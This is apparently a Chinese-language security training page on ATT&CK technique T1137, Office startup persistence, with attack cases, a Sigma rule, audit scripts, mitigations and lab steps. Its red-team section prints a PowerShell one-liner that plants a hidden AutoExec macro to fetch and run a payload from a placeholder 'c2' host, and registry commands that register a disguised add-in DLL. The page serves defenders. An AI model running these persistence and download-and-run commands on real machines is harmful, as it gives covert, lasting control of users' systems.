

# T1137 - Office应用启动

## 一句话通俗理解

Word、Excel 每次打开时都会偷偷加载一些"自动启动文件"——攻击者往这些文件里塞段代码，以后每次用户打开 Office，恶意程序就跟着跑起来，用户还以为只是正常开了个 Word。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 Office 应用的启动机制（模板/加载项/宏）实现持久化 |
| 为什么危险？ | Office 是企业标配，用户每天都开，攻击者搭便车获得高频率触发 |
| 谁需要关心？ | 企业终端安全团队、Office 365 管理员 |
| 你的第一步防御 | 监控 Normal.dotm 和 Office 加载项目录的文件变更 |
| 如果只做一件事 | 禁用 Office 宏（组策略），仅允许签名宏执行 |

## 难度等级

⭐⭐ 中级：需要了解 Office 模板和加载项机制，无需编程基础

## 前置知识检查

读这个文件前，你需要知道：
- **Office 模板**：Word/Excel 启动时自动加载的模板文件（如 Normal.dotm）
- **加载项（Add-in）**：扩展 Office 功能的插件，启动时自动加载
- **VBA 宏**：嵌入 Office 文档的 Visual Basic 脚本
- **Office 启动目录**：Office 启动时自动执行该目录下所有文件

## 技术描述

### 场景引入

想象你每天早上到办公室第一件事是开灯。某天小偷在灯的开关里装了个微型发射器——你一开灯，发射器就给小偷发信号"他来了"。你完全不知道，每天"开灯"这个再正常不过的动作，其实在小偷偷偷监控你。

Office 应用启动持久化就是这套逻辑：用户每天打开 Word/Excel，Office 会自动加载模板和加载项——攻击者把恶意代码塞进这些自动加载的文件里，用户每次开 Office，恶意代码就跟着执行。

### 通俗比喻

| Office 机制 | 比喻 | 攻击者怎么用 |
|------------|------|-------------|
| Normal.dotm | "Word 的默认模板，每次必加载" | 往里写 VBA 宏，开 Word 就执行 |
| Startup 目录 | "Word 的自动启动文件夹" | 放 .dotm 文件，启动时自动加载 |
| COM 加载项 | "Word 的系统级插件" | 注册恶意 DLL，Word 启动时加载 |
| WLL 加载项 | "Word 的老式加载项" | 放 .wll 文件到启动目录 |
| Excel XLSTART | "Excel 的自动启动文件夹" | 放 .xlam 文件，开 Excel 就执行 |

### 进阶理解

Microsoft Office 在启动时会自动加载一系列文件和配置，这是为了恢复用户上次的设置和加载自定义功能。这套机制本是便利设计，但攻击者发现它是完美的持久化载体：

**关键持久化位置：**
- **Word 模板**：`%APPDATA%\Microsoft\Templates\Normal.dotm` —— 每次 Word 启动必加载
- **Word 启动目录**：`%APPDATA%\Microsoft\Word\Startup\` —— 该目录下所有 .dotm 自动加载
- **Excel 启动目录**：`%APPDATA%\Microsoft\Excel\XLSTART\` —— 该目录下所有 .xlam/.xls 自动加载
- **Office 加载项注册表**：`HKLM\SOFTWARE\Microsoft\Office\<app>\Addins\` —— COM 加载项注册
- **Outlook 加载项**：`HKLM\SOFTWARE\Microsoft\Office\Outlook\Addins\` —— Outlook 启动时加载

**与 T1204（用户执行）的区别：**
T1137 是持久化——代码植入后自动触发；T1204 是执行——需要用户打开恶意文档。T1137 植入后，即使用户打开的是正常文档，恶意代码也会随 Office 启动执行。

## 子技术列表

T1137 有 6 个子技术：

| 子技术 ID | 名称 | 简述 |
|----------|------|------|
| T1137.001 | Office Template Macros | 修改 Normal.dotm 等模板植入宏 |
| T1137.002 | Office Test | 利用 Office Test 注册表键持久化 |
| T1137.003 | Outlook Forms | 创建恶意 Outlook 窗体 |
| T1137.004 | Outlook Home Page | 修改 Outlook 主页设置 |
| T1137.005 | Outlook Rules | 创建触发执行的 Outlook 规则 |
| T1137.006 | Add-ins | 注册恶意 COM/WLL 加载项 |

**详写 2 个最常用的子技术：**

**T1137.001 Office Template Macros**：攻击者修改 Word 的 `Normal.dotm` 模板文件，植入 VBA 宏。Normal.dotm 是 Word 的全局模板，每次启动 Word 都会加载——这意味着即使用户打开空白文档，宏也会执行。这是最经典的 Office 持久化手法。

**T1137.006 Add-ins**：攻击者注册恶意 COM 加载项或 WLL 加载项。COM 加载项是 DLL 文件，注册在注册表中，Office 启动时通过 `regsvr32` 加载。相比模板宏，加载项更隐蔽（不触发宏告警），且可执行任意 native 代码。

## 攻击流程



## 真实案例

### 案例1：APT28 用 Normal.dotm 持久化攻击欧洲政府机构
- **时间**：2018-2019 年
- **目标**：欧洲多国外交部、政府机构
- **攻击组织**：APT28（俄罗斯 GRU 背景）
- **手法**：鱼叉钓鱼初始入侵后，修改受害者的 `Normal.dotm` 模板，植入 VBA 宏。宏代码在 Word 启动时执行，从 C2 服务器下载后续 payload。由于宏在模板中，每次打开任何 Word 文档都会触发，实现高频率持久化
- **数据来源**：ESET Research 报告（一手厂商报告）

### 案例2：Gallium 用 Outlook 规则持久化攻击电信企业
- **时间**：2019-2020 年
- **目标**：东南亚和欧洲电信企业
- **攻击组织**：Gallium（APT41 / 中国背景）
- **手法**：创建 Outlook 规则，当收到特定主题的邮件时，自动启动恶意 PowerShell 脚本。规则配置为"收到含'update'主题的邮件时，启动应用程序 C:\temp\update.ps1"。攻击者只需发一封邮件即可远程触发后门，无需主动连接目标
- **数据来源**：Microsoft MSTIC 报告（一手厂商报告）

### 案例3：Fin7 用 COM 加载项持久化攻击零售企业
- **时间**：2017-2018 年
- **目标**：美国零售连锁企业
- **攻击组织**：FIN7（金融犯罪组织）
- **手法**：在受害机器注册恶意 COM 加载项 DLL，命名为 `Microsoft.Office.Security.dll` 伪装系统组件。加载项注册在 `HKCU\SOFTWARE\Microsoft\Word\Addins\` 下，Word 启动时自动加载并执行 CARBANAK 后门。COM 加载项不触发宏告警，隐蔽性高于模板宏
- **数据来源**：FireEye/Mandiant 报告 + 美国司法部起诉书（一手官方文档）

## 红队视角

### 可持续利用性分析

| 维度 | 评估 | 说明 |
|------|------|------|
| 隐蔽性 | 高 | COM 加载项不触发宏告警，模板宏可绕过部分策略 |
| 持久性 | 高 | 每次开 Office 都触发，用户很少检查加载项 |
| 可移植性 | 中 | 仅限 Windows/macOS 的 Office 环境 |
| 检测难度 | 中 | 模板和加载项目录可审计，但需关联行为分析 |

### 红队可复制性

```bash
# 方法1：修改 Normal.dotm 植入宏
# 用 PowerShell 操作 Word VBA
$word = New-Object -ComObject Word.Application
$word.NormalTemplate.VBProject.VBComponents.Add(1).CodeModule.AddFromString("
Sub AutoExec()
    Shell ""powershell -w hidden -c iex(iwr http://c2/payload.ps1)""
End Sub
")
$word.Quit()

# 方法2：放文件到 Word Startup 目录
copy payload.dotm "%APPDATA%\Microsoft\Word\Startup\"

# 方法3：注册 COM 加载项（需管理员）
reg add "HKCU\SOFTWARE\Microsoft\Word\Addins\Microsoft.Update" /v LoadBehavior /t REG_DWORD /d 3 /f
reg add "HKCU\SOFTWARE\Microsoft\Word\Addins\Microsoft.Update" /v Manifest /t REG_SZ /d "file:///C:/temp/payload.dll" /f
```

## 蓝队视角

### 用人话说检测

Office 持久化检测的核心是**盯住"Office 会自动加载的文件和配置"**。正常用户的 Normal.dotm 很少变更，加载项列表相对稳定——任何模板修改、加载项新增、Outlook 规则创建都值得审计。

### Sigma 规则

```yaml
title: 检测 Office 模板和加载项的可疑修改
id: 9c4f7e3a-2b1d-4e8f-9a3c-5d7b4c2a1e8f
status: stable
description: 监控 Normal.dotm 修改、Startup 目录文件创建、COM 加载项注册
logsource:
    product: windows
    category: file_event
detection:
    selection_template:
        TargetFilename|endswith:
            - '\Normal.dotm'
            - '\Normal.dot'
    selection_startup:
        TargetFilename|contains:
            - '\Microsoft\Word\Startup\'
            - '\Microsoft\Excel\XLSTART\'
            - '\Microsoft\PowerPoint\Startup\'
    filter_legitimate:
        TargetFilename|contains:
            - '\AppData\Local\Temp\'
    condition: (selection_template or selection_startup) and not filter_legitimate
falsepositives:
    - 用户自定义模板
    - 企业部署的 Office 加载项
level: medium
```

### 命令行检测

```powershell
# 检查 Normal.dotm 修改时间
Get-Item "$env:APPDATA\Microsoft\Templates\Normal.dotm" | Select-Object FullName, LastWriteTime, Length

# 列出 Word Startup 目录文件
Get-ChildItem "$env:APPDATA\Microsoft\Word\Startup\" -ErrorAction SilentlyContinue

# 列出 Excel XLSTART 目录文件
Get-ChildItem "$env:APPDATA\Microsoft\Excel\XLSTART\" -ErrorAction SilentlyContinue

# 查询所有 Office COM 加载项
$officeApps = @("Word","Excel","PowerPoint","Outlook")
foreach ($app in $officeApps) {
    Write-Host "=== $app Addins ==="
    Get-ChildItem "HKLM:\SOFTWARE\Microsoft\Office\$app\Addins\" -ErrorAction SilentlyContinue |
      ForEach-Object { Get-ItemProperty $_.PSPath }
    Get-ChildItem "HKCU:\SOFTWARE\Microsoft\Office\$app\Addins\" -ErrorAction SilentlyContinue |
      ForEach-Object { Get-ItemProperty $_.PSPath }
}

# 查询 Outlook 规则（需用 Outlook 对象模型）
$outlook = New-Object -ComObject Outlook.Application
$namespace = $outlook.GetNamespace("MAPI")
$rules = $namespace.DefaultStore.GetRules()
$rules | ForEach-Object { Write-Host "$($_.Name): $($_.RuleType) - $($_.Actions.Count) actions" }
```

### 关键审计点

| 审计项 | 关注点 |
|--------|--------|
| Normal.dotm 修改时间 | 非用户主动修改的变更 |
| Startup 目录文件数 | 新增未知 .dotm/.xlam 文件 |
| COM 加载项列表 | 未知的、命名可疑的加载项 |
| Outlook 规则 | "启动应用程序"类型的规则 |
| 加载项 LoadBehavior | LoadBehavior=3 表示自动加载 |

### 网络层检测
- Office 启动后的异常外连（C2 通信）
- Outlook 规则触发的 PowerShell 进程网络活动

## 避坑指南

| 坑 | 说明 | 正确做法 |
|----|------|---------|
| 只看 Normal.dotm | Startup 目录和加载项同样危险 | 覆盖所有 Office 自动加载位置 |
| 忽略 Outlook 规则 | 规则可远程触发执行 | 审计所有"启动应用程序"类型规则 |
| 忽略 HKCU 加载项 | 用户级加载项无需管理员 | 同时检查 HKLM 和 HKCU |
| 忽略 macOS Office | macOS 的 Office 同样有模板机制 | 覆盖 macOS 的 ~/Library/Group Containers |
| 只看文件不看行为 | 加载项 DLL 可能合法签名 | 关联 Office 子进程的异常行为 |

## 检测建议

### 主机层
- **Sysmon**：监控 Office 模板目录和加载项注册表
- **文件完整性监控**：Normal.dotm 基线对比
- **Office AMO**：Office 的 AMSI 集成，扫描 VBA 宏
- **EDR**：监控 Office 进程的异常子进程

### 应用层
- **宏审计**：启用 Office 宏审计日志
- **加载项管理**：用组策略限制加载项来源
- **Outlook 规则审计**：定期导出用户规则

### 网络层
- Office 进程的异常外连
- Outlook 规则触发的进程网络活动

## 缓解措施

| 措施 | 实施方式 | 效果 |
|------|---------|------|
| 禁用宏 | 组策略 `DisableVBACodeInDocs=1` | 阻断模板宏持久化 |
| 仅允许签名宏 | 组策略 `VBAWarnings=4` | 仅签名 VBA 可执行 |
| 限制加载项 | 组策略 `DisableAllAddins=1` 或白名单 | 阻断恶意加载项 |
| 模板保护 | 设置 Normal.dotm 只读权限 | 防止篡改 |
| Outlook 规则限制 | 禁止"启动应用程序"规则类型 | 阻断 Outlook 持久化 |
| AMSI 集成 | 启用 Office AMSI 扫描 | 检测恶意 VBA |

## 动手实验

### 实验1：观察 Normal.dotm 持久化（虚拟机 + 信任中心启用宏）

```bash
# 1. 记录 Normal.dotm 基线
Get-Item "$env:APPDATA\Microsoft\Templates\Normal.dotm" | Select LastWriteTime

# 2. 用 PowerShell 修改 Normal.dotm（需启用"信任对 VBA 项目对象模型的访问"）
$word = New-Object -ComObject Word.Application
$vbComp = $word.NormalTemplate.VBProject.VBComponents.Add(1)
$vbComp.Name = "Module1"
$vbComp.CodeModule.AddFromString('Sub AutoExec(): MsgBox "Normal.dotm 持久化触发": End Sub')
$word.NormalTemplate.Save
$word.Quit

# 3. 启动 Word（开始菜单或 winword.exe）
# 4. 应弹出对话框"Normal.dotm 持久化触发"

# 5. 清理：删除 Normal.dotm 让 Word 重建
del "$env:APPDATA\Microsoft\Templates\Normal.dotm"
```

**预期输出**：Word 启动时弹出对话框，证明 Normal.dotm 宏持久化生效。

### 实验2：审计 Office 加载项

```powershell
# 导出所有 Office 应用的加载项
$apps = @("Word","Excel","PowerPoint","Outlook")
foreach ($app in $apps) {
    Write-Host "`n=== $app 加载项 ==="
    @("HKLM:\SOFTWARE\Microsoft\Office\$app\Addins\",
      "HKCU:\SOFTWARE\Microsoft\Office\$app\Addins\",
      "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Office\$app\Addins\") |
      Where-Object { Test-Path $_ } |
      ForEach-Object { Get-ChildItem $_ | ForEach-Object { Get-ItemProperty $_.PSPath } }
}
```

**预期输出**：列出所有 Office 应用的 COM 加载项，便于发现可疑加载项。

### 专用工具

| 工具 | 用途 | 特点 |
|------|------|------|
| Office Safety Scanner | 微软官方扫描工具 | 检测恶意 Office 配置 |
| Macro_Monitor | VBA 宏监控 | 实时监控宏执行 |
| Outlook Rules Inspector | Outlook 规则审计 | 检测恶意规则 |
| Office_docs Github | Office 持久化检测脚本 | 开源审计工具集 |

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| Normal.dotm | Word 的全局模板，每次启动必加载 |
| Startup 目录 | Office 启动时自动加载该目录文件 |
| COM 加载项 | 基于 COM 技术的 Office 插件 |
| WLL 加载项 | Word 的老式加载项格式 |
| XLSTART | Excel 的自动启动目录 |
| AutoExec 宏 | Office 启动时自动执行的宏 |
| Outlook 规则 | 邮件到达时自动执行的动作 |

## 参考资料

### 深入了解
- 📚 [MITRE ATT&CK T1137](https://attack.mitre.org/techniques/T1137/) —— 官方技术页面
- 📚 [MITRE ATT&CK T1137.001 Office Template Macros](https://attack.mitre.org/techniques/T1137/001/)
- 📚 [MITRE ATT&CK T1137.006 Add-ins](https://attack.mitre.org/techniques/T1137/006/)

### 动手试试
- 🔧 [Office Safety Scanner](https://support.microsoft.com/topic/microsoft-safety-scanner-download) —— 微软官方扫描
- 🔧 [Sysmon Office 监控配置](https://github.com/SwiftOnSecurity/sysmon-config) —— 开源配置

### 真实攻击
- 🎯 ESET APT28 报告 —— Normal.dotm 持久化
- 🎯 Microsoft MSTIC Gallium 报告 —— Outlook 规则持久化
- 🎯 FireEye FIN7 报告 —— COM 加载项持久化

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| v3.1 | 2026-07-10 | 重写为持久化战术正确内容，修复跨战术污染 |
| v3.0 | 2026-06-15 | 初版 v3.0 风格 |
